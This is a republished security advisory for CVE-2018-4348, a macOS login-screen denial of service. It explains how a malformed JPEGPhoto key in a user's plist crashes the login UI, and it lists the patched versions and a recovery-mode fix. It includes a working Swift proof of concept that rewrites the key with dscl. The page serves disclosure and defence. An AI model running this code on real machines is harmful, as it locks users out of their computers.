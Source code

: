```yaml
---
layout: cve
title: "macOS Login Screen DoS"
cve_id: "CVE-2018-4348"
date: 2018-10-30
reference:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4348
  - https://support.apple.com/en-us/HT209193
  - https://support.apple.com/en-us/HT209139
description: "Some versions of macOS had a DoS issue on their login screen."
---
```


#### Original post: [https://labs.f-secure.com/advisories/macos-user-interface-denial-of-service/](https://labs.f-secure.com/advisories/macos-user-interface-denial-of-service/)

|    **Product**    | macOS 10.13.6, 10.13.5, 10.12.6 Security Update 2018-004, previous versions may be affected |
|    **Severity**   |                   Low                   |
| **CVE Reference** |              CVE-2018-4348              |
|      **Type**     |             Denail of Sevice            |

## Description

 Various versions of macOS are vulnerable to a Denial of Service attack via the login user interface. A malicious application or an attacker with authenticated command line access to the device can deny the user’s ability to login after the user logs out or reboots the computer.

## Details

macOS stores information about local users in the folder `/var/db/dslocal/nodes/Default/users/`. Each user is assigned a .plist file which contains configuration details about the specific user. For example, if a user `MWRUser` were to exist, then the .plist file `/var/db/dslocal/nodes/Default/users/MWRUser.plist` exists as well.

Plist files can contain various types of data, including strings and binary data. The data is provided by several `keys` within a .plist configuration file. Two of these keys are `JPEGPhoto` and `Picture`, which manage the user’s profile picture.

It was found that if the `JPEGphoto` key did not contain binary data, then the macOS operating system would crash while trying to render a profile picture for the user. This would cause the operating system to fail to load the macOS login screen, thus denying the user the ability to log into the computer via the user interface.

## Impact

Users of the targeted macOS system would not be able to log into their computer via the user interface. 

## Proof of Concept

The following terminal commands could be ran by any user or application to replicate this issue. It should be noted that low level users can only modify specific data about their own user account:

After logging out or restarting the macOS operating system, the user would be unable to log into the macOS operating system.

MWR created the following Swift code that could be used by any application to replicate this issue:

```
import Foundation

@discardableResult
func shell(_ args: String...) -> Int32 {
    let task = Process()
    task.launchPath = "/usr/bin/env"
    task.arguments = args
    task.launch()
    task.waitUntilExit()
    return task.terminationStatus
}

var username = NSUserName()
var dscl_user = "/Users/" + username
 
shell("/usr/bin/dscl", ".", "delete", dscl_user, "JPEGPhoto")
shell("/usr/bin/dscl", ".", "append", dscl_user, "JPEGPhoto", "mwrinfosecurity")
```

## Solution

Apple has released the following updates which are not vulnerable to this issue:

* macOS Mojave 10.14
* macOS High Sierra 10.13.6 Security Update 2018-001
* macOS Sierra 10.12.6 Security Update 2018-005

Users should update their computers so that they are immune to this attack.

Alternatively, if this attack were to be used on a vulnerable macOS computer, a user can boot their computer into recovery mode, open a terminal window and run the following command:

```
$ /usr/libexec/Plistbuddy –c “Delete jpegphoto” /Volumes/<mounted macOS system>/var/db/dslocal/nodes/Default/users/<username>.plist
```